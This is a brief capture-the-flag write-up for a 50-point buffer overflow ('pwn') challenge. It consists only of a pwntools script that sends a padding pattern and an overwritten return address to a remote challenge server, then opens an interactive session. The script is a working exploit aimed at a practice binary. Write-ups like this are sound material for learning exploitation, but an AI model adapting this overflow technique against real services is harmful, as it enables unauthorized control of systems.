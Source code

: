 # BOF
**Category**: pwn
**Points**: 50

# write-up
```python
from pwn import *

#p = process('./vuln')
p = remote('139.59.30.165',8700)
#context.terminal = ['tmux', 'splitw', '-h']



payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A"
payload += p64(0x400766)
pause()
p.recvuntil(">>> ")
p.sendline(payload)
p.interactive()
```
